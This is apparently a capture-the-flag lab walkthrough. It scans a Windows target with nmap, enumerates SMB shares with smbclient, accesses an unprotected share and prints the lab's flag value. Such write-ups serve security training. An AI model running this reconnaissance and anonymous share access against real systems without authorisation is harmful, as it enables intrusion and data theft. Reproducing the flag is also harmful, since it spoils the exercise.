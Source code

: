 ```php
nmap -A -p- -sC 10.129.148.211

Nmap scan report for 10.129.148.211
Host is up (0.038s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

There interested in port 445 for SMB related attacks

use `smbclient` to list out possible open shares on port 445 

```php
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
WorkShares      Disk 
```

Lets go down the list trying them out

```php
smbclient \\\\10.129.148.211\\ADMIN$ -N
tree connect failed: NT_STATUS_ACCESS_DENIED

smbclient \\\\10.129.148.211\\C$ -N
tree connect failed: NT_STATUS_ACCESS_DENIED

smbclient \\\\10.129.148.211\\IPC -N
tree connect failed: NT_STATUS_ACCESS_DENIED
```

The `WorkShares` directory was free

```php
smbclient \\\\10.129.148.211\\WorkShares

Password for [WORKGROUP\drew]:
Try "help" to get a list of possible commands.
smb: \> help
```

We see two directories `Amy.J` and `James.P`, using the `get` command and grab the text file that each one contained, `worknotes.txt` and `flag.txt`.

```php
get worknotes.txt 
get flag.txt 
```

In `flag.txt` we find the root flag: `5f61c10dffbc77a704d76016a22f1664`
We have rooted this machine